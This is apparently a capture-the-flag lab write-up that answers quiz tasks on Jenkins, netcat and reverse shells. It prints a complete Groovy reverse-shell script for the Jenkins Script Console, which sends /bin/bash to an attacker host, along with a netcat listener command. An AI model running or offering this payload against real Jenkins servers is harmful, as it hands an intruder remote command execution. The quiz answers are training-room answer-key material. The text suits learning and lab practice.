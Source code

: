 Project **Groovy** Script

TASK 6

What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows?

    C:\Windows\System32\cmd.exe

cmd.exe
    

TASK 7

What is a different command than "ip a" we could use to display our network interfaces' information on Linux?

    $ ifconfig

TASK 8

What switch should we use with netcat for it to use UDP transport mode?

Outlines [here](https://www.digitalocean.com/community/tutorials/how-to-use-netcat-to-establish-and-test-tcp-and-udp-connections)

    $ netcat -u host port

-u

TASK 9

What is the term used to describe making a target host initiate a connection back to the attacker host?

    reverse shell

## Establishing Reverse Shell

Using Jenkins console to make a reverse shell via UDP to our Kali machine 

On kali `$ nc -lvnp 8000`:
Run the script in Jenkins Script Console (replacing host="" with the listening interface):

    String host="IP_Addr_TUN0";
    int port=8000;
    String cmd="/bin/bash";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()) {while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

<img width="1020" alt="image" src="https://user-images.githubusercontent.com/10171446/170849862-b43b49b0-237d-4994-baae-6f2aaa717e3f.png">

Netcat listener

<img width="534" alt="image" src="https://user-images.githubusercontent.com/10171446/170849931-6ff6cb5b-6910-46b2-8191-8e8725f2732e.png">

